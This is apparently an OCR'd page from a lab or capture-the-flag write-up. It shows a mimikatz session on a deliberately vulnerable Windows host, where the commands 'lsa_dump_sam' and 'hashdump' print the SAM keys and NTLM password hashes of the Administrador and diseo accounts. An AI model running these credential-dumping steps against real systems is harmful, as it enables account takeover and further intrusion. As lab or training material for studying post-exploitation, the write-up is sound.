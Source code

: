 Info:

```
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```shell
lsa_dump_sam
```

Info:

```
[+] Running as SYSTEM
[*] Dumping SAM
Domain : VULN-SMBV2
SysKey : 398c00341f04880ff6d05411bf9bb5b6
Local SID : S-1-5-21-3493810251-3775582006-1769795684

SAMKey : d7541ea70f23ee8091af2c6953673fac

RID  : 000001f4 (500)
User : Administrador
  Hash NTLM: 7ce21f17c0aee7fb9ceba532d0546ad6

RID  : 000001f5 (501)
User : Invitado

RID  : 000003e8 (1000)
User : diseo
  Hash NTLM: b1f702c125f162ed66636c7d825429e2
```

```shell
hashdump
```

Info:

```
Administrador:500:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
diseo:1000:aad3b435b51404eeaad3b435b51404ee:b1f702c125f162ed66636c7d825429e2:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> Hash NTLM

```
Administrador = 7ce21f17c0aee7fb9ceba532d0546ad6
diseo = b1f702c125f162ed66636c7d825429e2
```

